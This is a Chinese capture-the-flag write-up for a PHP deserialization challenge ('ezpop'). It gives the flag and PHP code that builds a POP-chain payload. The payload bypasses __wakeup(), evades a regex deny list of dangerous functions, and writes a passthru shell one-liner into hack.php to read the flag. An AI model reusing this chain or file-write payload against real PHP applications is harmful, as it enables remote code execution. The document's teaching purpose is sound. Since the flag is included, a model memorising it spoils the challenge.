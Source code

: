 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入shell方法，此方法为抽象方法，在子类里实现，所以便进入evil的shell方法，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    public $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract public function pass();

    public function action() {
        $this->pass();
    }
}
class normal{
    public $d;
    function action(){
        echo "you must bypass it";
    }
} 
class evil extends hack {
    public $data;
    public $a;
    public $b;
    public $c;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
        $this->b=serialize(new normal());
        $this->c='%73%68%65%6C%6C';
    }
    public function pass(){
        $this->a = unserialize($this->b);
        $this->a->d = urldecode(date($this->c));
        if($this->a->d=== 'shell'){
           $this->shell();
        }
        else{
            die(date('Y/m/d H:i:s'));
        }
    }
    function shell(){
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump|php/i',$this->data)){
            die("you die");
        }
        $dir = 'scandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
        if(!file_exists($dir)){
            mkdir($dir);
            echo $dir;
        }
        file_put_contents("$dir" . "hack.php", $this->data);
    }
}
$a=serialize(new Openfunc());
echo $a;
?>
```

